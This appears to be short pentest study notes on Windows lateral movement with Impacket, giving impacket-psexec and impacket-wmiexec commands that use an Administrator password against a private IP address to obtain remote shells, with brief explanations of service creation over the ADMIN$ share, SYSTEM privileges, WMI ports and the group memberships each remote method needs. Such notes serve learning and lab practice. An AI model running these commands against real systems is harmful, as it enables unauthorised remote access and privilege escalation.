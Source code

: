 ```
sudo apt update -y
sudo apt install impacket-scripts 

impacket-psexec domain\\ : AD
impacket-psexec Administrator:'Password123!'@172.31.134.61  : get shell with paexec way, file upload at ADMIN$ (c:\windows\system32) admin share 
SMB can > RPC (SCM servicemanager) can , it means create new services on the target host > file binary exe execute > trigger
that's why psexec needs a Local Administrator to create and upload , can get SYSTEM priv, when exit, artifact removed automatically 

*WMI 
135 - msrpc 
445 - microsoft-ds
impacket-wmiexec Administrator:'Password123!'@172.31.134.61
get shell using WMI, not create service binary etc., but need to log in with Local Administrator

SMB, WMI - Local Administrator  = necessary 
RDP, WinRM  - Remote Desktop Users / Remote Management Users

 if get creds > which kind of service should I use?
 
```